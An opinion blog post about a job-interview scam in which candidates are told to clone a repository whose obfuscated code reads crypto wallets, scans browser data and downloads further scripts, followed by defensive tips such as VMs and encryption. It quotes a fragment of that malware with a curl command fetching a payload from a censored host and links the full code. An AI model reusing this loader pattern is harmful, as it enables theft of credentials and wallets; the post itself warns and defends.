 ```yaml
---
aliases:
- /en/you-could-lose-all-your-crypto-in-a-job-interview/
authors:
- Eduardo Zepeda
categories:
- opinion
coverImage: images/tech-interview-hacking-obfuscated-code.jpg
date: '2024-12-14T22:24:22-06:00'
description: This is the story about a guy who was about to lose all his crypto and
  probably get hacked in a job interview for a remote position
keyword: ''
keywords:
- crypto
- interview
- github
- hacking
- docker
title: You Could Lose All Your Crypto In a Job Interview
---
```


The other day I was browsing Elon Musk's political propaganda machine, also known as X, and came across this gem of human shamelessness, an interviewer who nearly hacked one of his applicants.

## Running malware in job interviews.

The story goes like this: you're in need of a job, you're attending the interview remotely, [the recruiter asks you to clone a Github library]({{< ref path="/posts/git/el-problema-de-usar-github-para-evaluar-a-desarrolladores/index.md" lang="en" >}}) to find bugs in the code, an average interview for a developer position, all looks normal up to this point. Of course you, in need of a good job, decide to go through with the process.

Well, this guy was smart enough to read the code to be executed before blindly executing his voluminous *node_modules* directory. And what did he find? A succulent and delicious minimized code, also obfuscated and with hints of putting your computer to mine cryptocurrencies. 

Our friend was like George, curious, so he reformated the code and found:

- Lines that appear to search and read the contents of Solana wallets.
- Scripts that scan browser directories.  
- [API calls to an IP address](/en/software architecture/basic-characteristics-of-an-api-rest-api/), with no domain, some with no response at all and some that download obfuscated Python scripts (I guess it follows up the hacking process by installing a backdoor or some RAT).


If you want to ~~infect yourself~~ read the code, visit [the github repository](https://gist.github.com/jbrit/9a6525d086411a0fcffea202f368e780#file-initial-obfuscated-iife-js#?), I take no responsibility for anything though.

``` javascript
_0x42b722(“curl -Lo” + _0x157519 + “\” + “http://<censored>/pdown” + “\””, (_0x204dd7, _0x6e1c16, _0x52b515) => {
  if (_0x204dd7) {
    _0x517b73 = 0;
    return void _0x70af27();
  })
```

{{<ad>}}

## How do we avoid falling into these traps?

I don't plan to stand alone in the drama. This is about offering some practical solutions so that script kiddies don't make fun of you:

### **Use a different device**.

The most comfortable option, but also the most expensive, keep your devices separate, use one computer for work and technical interviews and another for your personal stuff, cryptocurrencies included. 

**Read the code, whenever possible**.

Recruiter sends you a script? Examine it carefully before you run it. Yes, I know, sometimes the code is too long or obfuscated, but if you have some experience, you can rapidly examine the screen with your eyes and spot the most obvious red flags. Of course, you can't waste all afternoon on this especially if you're in a real interview or value your time.

### **Use a virtual machine**.

Mount a virtual machine, either Virtual Box or Gnome Boxes, on Linux, or a [completely isolated Docker container](/en/docker/the-most-useful-and-basic-docker-commands/), if you don't mind not having a graphical interface. 

Another option available, and my personal favorite: a live USB with the distribution of your choice (Debian, Fedora, or whatever you want), 

That way, the worst that can happen is that they infect your virtual machine and not your real computer with all your personal information. Just be careful with shared volumes! If you mount the hard drive that contains sensitive information in the VM, you're toast.

**Encrypt your sensitive information**.

Here comes in the classic advice from old-school IT veterans: **encrypt your important data**. If someone manages to access your collection of kitten memes,it will be just a garbage of non-sense zeroes and ones. 

I don't plan to offer details because there is already too much information on the internet about GPG and its alternatives, Google GPG or read the manual directly, if you are not that familiar with the terminal or don't want to become a Linux or math nerd, there are tools like Kleopatra, which could make cryptography more intuitive to use.

## Don't run arbitrary code on your personal machine.

Do you have better ideas to protect us from black hat interviews? Drop your tips on social media and tag me. I look forward to adding your suggestions to the post. 

If you want to read the full story give Elon's blog a visit.... I mean X. Edited: the owner of the account changed his privacy settings so now you can't watch the full conversation.